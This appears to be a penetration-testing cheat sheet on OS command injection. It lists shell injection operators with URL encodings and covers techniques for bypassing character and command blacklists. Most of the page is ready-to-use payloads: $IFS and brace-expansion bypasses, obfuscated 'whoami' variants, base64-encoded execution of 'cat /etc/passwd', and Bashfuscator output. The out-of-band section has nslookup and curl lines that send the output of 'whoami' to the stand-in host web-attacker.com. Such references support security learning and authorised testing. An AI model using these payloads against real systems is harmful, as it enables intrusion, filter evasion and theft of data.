 ```yaml
---
description: 'Command Injection is #3 in OWASP top 10.'
---
```


# Command Injection





### Command Injection Methods

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | \n                      | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|\|`                  | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |



_<mark style="color:red;">**Note:**</mark>_ The only exception may be the semi-colon `;`, which will not work if the command was being executed with `Windows Command Line (CMD)`, but would still work if it was being executed with `Windows PowerShell`.





### Bypassing Filters

Check out PayloadAllTheThings for more: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

|                           |                        |
| ------------------------- | ---------------------- |
| **Using Tabs**            | `127.0.0.1%0a%09`      |
| **Using $IFS**            | `127.0.0.1%0a${IFS}`   |
| **Using Brace Expansion** | `127.0.0.1%0a{ls,-la}` |
| **Using New Line**        | `127.0.0.1%0a`         |





### Bypassing Blacklisted Characters



_**Linux:**_

|   |                    |
| - | ------------------ |
| / | ${PATH:0:1}        |
| ; | ${LS\_COLORS:10:1} |

_**Windows:**_



|    |                   |
| -- | ----------------- |
| \\ | $env:HOMEPATH\[0] |
| \\ | %HOMEPATH:\~6,11% |



### Character Shifting:

There are other techniques to produce the required characters without using them, like `shifting characters`. For example, the following Linux command shifts the character we pass by `1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with `man ascii`), then add it instead of `[` in the below example. This way, the last printed character would be the one we need:

```shell-session
$ man ascii     # \ is on 92, before it is [ on 91
$ echo $(tr '!-}' '"-~'<<<[)

\
```





### Bypassing Blacklisted Commands

```shell-session
$ w'h'o'am'i
$ w"h"o"am"i
$ who$@ami
$ w\ho\am\i
#### Advanced

$ (tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$ $(a="WhOaMi";printf %s "${a,,}")

$ echo 'whoami' | rev
$ (rev<<<'imaohw')
```

_**Windows Only:**_

```powershell
C:\rottaj> who^ami
// Advanced
C:\rottaj> "whoami"[-1..-20] -join ''
C:\rottaj> iex "$('imaohw'[-1..-20] -join '')"
```



### Encoding Commands

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo -n 'cat /etc/passwd | grep 33' | base64
</strong></code></pre>

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ bash&#x3C;&#x3C;&#x3C;$(base64 -d&#x3C;&#x3C;&#x3C;Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
</strong></code></pre>

&#x20;_<mark style="color:red;">**Note:**</mark>_ that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.



We can find more techniques on PayloadAllTheThings:

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)







### Injection through out-of-band (OAST) techniques

###

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

```
&& curl web-attacker.com/$(whoami)
```

###

### Other Injection Operators

| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        |  `\r`  `%0d` `%0a` `%09`                          |





### Evasion Tools

_**Linux:**_

_**Bashfuscator:**_ [_**https://github.com/Bashfuscator/Bashfuscator**_](https://github.com/Bashfuscator/Bashfuscator)

<pre class="language-shell-session"><code class="lang-shell-session">r$ git clone https://github.com/Bashfuscator/Bashfuscator
$ cd Bashfuscator
$ python3 setup.py install --user

<strong>$ ./bashfuscator -c 'cat /etc/passwd'
</strong>$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
# Testing
$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'
</code></pre>



_**Windows:**_

_**DOSfuscation:**_ [https://github.com/danielbohannon/Invoke-DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)

